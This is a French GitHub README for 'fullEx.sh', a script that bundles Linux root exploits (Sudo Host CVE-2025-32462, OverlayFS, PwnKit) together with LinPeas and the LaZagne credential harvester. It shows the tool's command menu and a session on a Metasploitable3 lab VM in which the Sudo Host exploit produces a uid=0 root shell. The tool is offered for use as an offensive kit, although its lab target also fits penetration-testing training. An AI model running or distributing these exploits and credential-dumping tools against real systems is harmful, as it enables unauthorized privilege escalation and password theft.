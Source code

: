 # <img width="1335" height="890" alt="image" src="https://github.com/user-attachments/assets/c947aebb-593b-4027-bc50-ac87663ff387" />


Les exploits root & outils dispo :

💀 Sudo Host

💀 OverlayFS

💀 PwnKit

🤖 LinPeas

👾 LaZagne

# ⚙️ Commandes

```
vagrant@metasploitable3-ub1404:~/fullEx$ ./fullEx.sh -help
                                                                                                    
 $$$$$$\            $$\ $$\ $$$$$$$$\           
$$  __$$\           $$ |$$ |$$  _____|          
$$ /  \__|$$\   $$\ $$ |$$ |$$ |      $$\   $$\ 
$$$$\     $$ |  $$ |$$ |$$ |$$$$$\    \$$\ $$  |
$$  _|    $$ |  $$ |$$ |$$ |$$  __|    \$$$$  / 
$$ |      $$ |  $$ |$$ |$$ |$$ |       $$  $$<  
$$ |      \$$$$$$  |$$ |$$ |$$$$$$$$\ $$  /\$$\ 
\__|       \______/ \__|\__|\________|\__/  \__|

               by M0rPH3U53
 
 
Usage: ./fullEx.sh COMMAND
 
Commands:
   -LinPeas       Execute LinPeas
   -LaZagne       Execute LaZagne

OverlaysFS
   -OverC         Compile le script C#
   -Overlays      Overlays64 - CVE-2015-1328

   -PwnKit64/32   PwnKit64/32 - CVE-2021-4034
   -SudoHost      Sudo Hostname - CVE-2025-32462   
   -check         Verifie si gcc est installer
   -perm          Applique les droit d'execution
   -help          Affiche les commandes
 ```
# 💲 Exemple

```
vagrant@metasploitable3-ub1404:~/fullEx$ bash fullEx.sh -perm
vagrant@metasploitable3-ub1404:~/fullEx$ ./fullEx.sh -SudoHost
[+] Sudo Host Bypass Exploit - CVE-2025-32462
[+] Discovered by: Rich Mirch
[+] Exploit by: J3rich0123
[+] Target: Linux x86_64
[+] Starting pseudo-root shell on dev.
[+] Type 'exit' or 'quit' to leave.
[+] For a real shell, type: bash
[+] Or: vim → :!bash to break into a real TTY shell
root@dev# bash -i
root@metasploitable3-ub1404:~/fullEx# id
uid=0(root) gid=0(root) groups=0(root)
  
```
